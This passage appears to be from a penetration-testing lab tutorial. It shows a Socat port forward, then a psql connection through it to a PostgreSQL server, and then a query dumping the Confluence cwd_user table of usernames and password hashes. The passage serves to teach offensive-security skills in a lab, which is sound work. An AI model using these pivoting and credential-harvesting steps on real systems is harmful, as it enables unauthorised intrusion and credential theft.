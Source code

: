 ```
2022/08/18 10:12:01 socat[46589] N listening on AF=2 0.0.0.0:2345
```

> Listing 10 - Running the Socat port forward command.

The network is now set up like the following diagram:

![[/eb1577c7ae460992abbeee4839ffb4e3-PRAT2_1_3_PortForwardSocat.png]]

Figure 3: Socat in place as our port forwarder

With the Socat process running, we can run **psql** on our Kali machine, specifying that we want to connect to CONFLUENCE01 (**\-h 192.168.50.63**) on port 2345 (**\-p 2345**) with the _postgres_ user account (**\-U postgres**). When prompted, we will enter the password, and once connected, we can run the **\\l** command to list the available databases.

```
kali@kali:~$ psql -h 192.168.50.63 -p 2345 -U postgres
Password for user postgres: 
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l
                                  List of databases
    Name    |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
------------+----------+----------+-------------+-------------+-----------------------
 confluence | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
 template1  | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
            |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

> Listing 11 - Connecting to the PGDATABASE01 PostgreSQL service and listing databases using psql, through our port forward.

Success! We've connected to the PostgreSQL database through our port forward. We'll also find that we have access to the _confluence_ database.

Using our new database access, we can continue our enumeration. In the confluence database, let's query the _cwd\_user_ table. This contains the username and password hashes for all Confluence users. We'll connect to the database with the **\\c confluence** command, then run **select \* from cwd\_user;** to review everything in that table.

```
postgres=# \c confluence
psql (14.2 (Debian 14.2-1+b3), server 12.11 (Ubuntu 12.11-0ubuntu0.20.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "confluence" as user "postgres".

confluence=# select * from cwd_user;

   id    |   user_name    | lower_user_name | active |      created_date       |      updated_date       | first_name | lower_first_name |   last_name   | lower_last_name |      display_name      |   lower_display_name   |           email_address            |        lower_email_address         |             external_id              | directory_id |                                credential                                 
---------+----------------+-----------------+--------+-------------------------+-------------------------+------------+------------------+---------------+-----------------+------------------------+------------------------+------------------------------------+------------------------------------+--------------------------------------+--------------+---------------------------------------------------------------------------
```